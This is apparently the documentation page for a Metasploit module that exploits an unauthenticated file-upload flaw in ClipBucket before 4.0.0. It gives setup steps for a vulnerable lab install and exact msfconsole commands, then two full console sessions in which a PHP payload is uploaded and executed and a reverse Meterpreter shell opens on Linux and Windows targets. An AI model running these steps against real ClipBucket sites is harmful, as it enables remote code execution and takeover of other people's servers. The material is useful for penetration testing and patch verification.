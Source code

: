 ## Vulnerable Application

### Description

A malicious file can be uploaded by an unauthenticated attacker through the `actions/beats_uploader.php` script.
ClipBucket < 4.0.0 - Release 4902 is vulnerable.  Additional information and vulnerabilities can be viewed on
Exploit-DB [44250](https://www.exploit-db.com/exploits/44250/)

Available at [Exploit-DB](https://www.exploit-db.com/apps/60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip)

### Installation

Download Application: ```wget https://www.exploit-db.com/apps/60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip```

Unzip: ```unzip 60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip ```

Move In WebDirectory: ```mv clipbucket-4881/upload/* /var/www/html/```

Change Owner: ```chown -R www-data:www-data /var/www/html/```

Follow Clipbucket Installer Instructions at: ```http://localhost/```


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/clipbucket_fileupload_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `set lport <port>`
  7. Do: `set lhost <ip>`
  8. Do: `exploit`
  9. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/`,  however it can be changed.

## Scenarios

### ClipBucket on Kali Linux

```
msf > use exploit/multi/http/clipbucket_fileupload_exec 
msf exploit(multi/http/clipbucket_fileupload_exec) > set rhost 10.22.1.4
rhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set rport 80
rport => 80
msf exploit(multi/http/clipbucket_fileupload_exec) > set targeturi clipbucket
targeturi => clipbucket
msf exploit(multi/http/clipbucket_fileupload_exec) > set lhost 10.22.1.4
lhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set lport 5050
lport => 5050
msf exploit(multi/http/clipbucket_fileupload_exec) > run 

[*] Started reverse TCP handler on 10.22.1.4:5050 
[*] Uploading payload..
[+] Looking For Payload .... 
[+] found payload in /actions/CB_BEATS_UPLOAD_DIR/1520842928949a3f.php 
[*] Executing Payload [ clipbucket/actions/CB_BEATS_UPLOAD_DIR/1520842928949a3f.php ]
[*] Sending stage (37543 bytes) to 10.22.1.4
[*] Meterpreter session 1 opened (10.22.1.4:5050 -> 10.22.1.4:41752) at 2018-03-12 13:52:10 +0530
[+] Deleted 1520842928949a3f.php

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 4.14.0-kali3-amd64 #1 SMP Debian 4.14.17-1kali1 (2018-02-16) x86_64
Meterpreter : php/linux
meterpreter > 
```
### ClipBucket on Windows 7

```
msf > use exploit/multi/http/clipbucket_fileupload_exec 
msf exploit(multi/http/clipbucket_fileupload_exec) > set rhost 10.22.1.13
rhost => 10.22.1.13
msf exploit(multi/http/clipbucket_fileupload_exec) > set rport 80
rport => 80
msf exploit(multi/http/clipbucket_fileupload_exec) > set TARGETURI clipbucketest
TARGETURI => clipbucketest
msf exploit(multi/http/clipbucket_fileupload_exec) > set lhost 10.22.1.4 
lhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set lport 4545
lport => 4545
msf exploit(multi/http/clipbucket_fileupload_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.4:4545 
[*] Uploading payload..
[+] Looking For Payload .... 
[+] found payload in /actions/CB_BEATS_UPLOAD_DIR/152084407045df09.php 
[*] Executing Payload [ clipbucketest/actions/CB_BEATS_UPLOAD_DIR/152084407045df09.php ]
[*] Sending stage (37543 bytes) to 10.22.1.13
[*] Meterpreter session 1 opened (10.22.1.4:4545 -> 10.22.1.13:49166) at 2018-03-12 14:11:10 +0530
[+] Deleted 152084407045df09.php

meterpreter > sysinfo 
Computer    : AGENT22-PC
OS          : Windows NT AGENT22-PC 6.1 build 7600 (Windows 7 Ultimate Edition) i586
Meterpreter : php/windows
meterpreter > 
```
